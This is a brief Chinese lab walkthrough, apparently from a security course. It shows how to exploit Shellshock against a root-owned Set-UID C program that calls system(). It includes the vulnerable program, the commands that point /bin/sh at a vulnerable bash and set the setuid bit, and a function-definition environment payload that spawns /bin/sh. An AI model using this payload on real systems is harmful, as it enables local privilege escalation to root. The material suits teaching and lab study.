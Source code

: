 ## 利用Shellshock攻击Set-UID程序

### 1. 准备目标程序

```c
// vul.c

#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void main() {
        setuid(geteuid());
        system("/bin/ls -l");
}
```

### 2. 使/bin/sh指向漏洞版本的bash

```bash
sudo ln -sf /bin/bash_shellshock /bin/sh
```

### 3. 执行攻击

```bahs
# 编译目标程序
gcc vul.c -o vul
# 更改目标程序所有者
sudo chown root vul
# 设置set uid
sudo chmod 4755 vul
# 设置环境变量
export foo='() { echo hello; }; /bin/sh'
# 查看效果
id
```
